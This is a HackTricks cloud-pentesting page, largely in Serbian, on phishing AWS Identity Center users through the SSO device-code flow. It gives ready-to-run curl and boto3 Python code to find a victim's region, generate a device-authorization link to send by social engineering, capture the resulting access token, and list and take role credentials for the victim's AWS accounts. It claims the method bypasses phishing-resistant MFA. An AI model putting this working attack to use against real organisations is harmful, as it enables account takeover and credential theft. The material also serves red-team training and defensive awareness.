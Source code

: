 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Prvobitno predloženo u [**ovom blog postu**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), moguće je poslati **link** korisniku koji koristi AWS SSO koji, ako **korisnik prihvati**, napadaču će omogućiti da dobije **token za impersonaciju korisnika** i pristup svim rolama kojima korisnik može pristupiti u **Identity Center**.

Da bi se izveo ovaj napad, zahtevi su:

* Žrtva mora koristiti **Identity Center**
* Napadač mora znati **subdomen** koji koristi žrtva `<victimsub>.awsapps.com/start`

Samo sa prethodnim informacijama, **napadač će moći da pošalje link korisniku** koji, ako bude **prihvaćen**, omogućava **napadaču pristup AWS korisničkom** nalogu.

### Attack

1. **Finding the subdomain**

Prvi korak napadača je da sazna koji subdomen koristi kompanija žrtve u svom Identity Center. To se može uraditi putem **OSINT** ili **pogađanja + BF** jer većina kompanija koristi svoje ime ili varijaciju svog imena ovde.

Sa ovom informacijom, moguće je dobiti region u kojem je Indentity Center konfigurisan sa:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Generišite link za žrtvu i pošaljite ga**

Pokrenite sledeći kod da generišete AWS SSO login link kako bi žrtva mogla da se autentifikuje.\
Za demo, pokrenite ovaj kod u python konzoli i ne izlazite iz nje jer će vam kasnije biti potrebni neki objekti za dobijanje tokena:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Pošaljite generisanu vezu žrtvi koristeći svoje sjajne veštine socijalnog inženjeringa!

3. **Sačekajte da žrtva prihvati**

Ako je žrtva **već bila prijavljena na AWS**, samo će morati da prihvati dodeljivanje dozvola, ako nije, moraće da **se prijavi i zatim prihvati dodeljivanje dozvola**.\
Ovako izgleda promp danas:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Dobijte SSO pristupni token**

Ako je žrtva prihvatila promp, pokrenite ovaj kod da **generišete SSO token imitujući korisnika**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO pristupni token je **važeći 8h**.

5. **Imitirati korisnika**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Zanimljivo je znati da prethodni napad **radi čak i ako se koristi "nephishable MFA" (webAuth)**. To je zato što prethodni **tok rada nikada ne napušta korišćeni OAuth domen**. Za razliku od drugih phishing napada gde korisnik mora da zameni domen za prijavu, u ovom slučaju je tok rada sa kodom uređaja pripremljen tako da je **kod poznat uređaju** i korisnik može da se prijavi čak i na drugom računaru. Ako se prihvati poruka, uređaj, samo **znajući početni kod**, će moći da **dobije akreditive** za korisnika.

Za više informacija o ovome [**proverite ovaj post**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
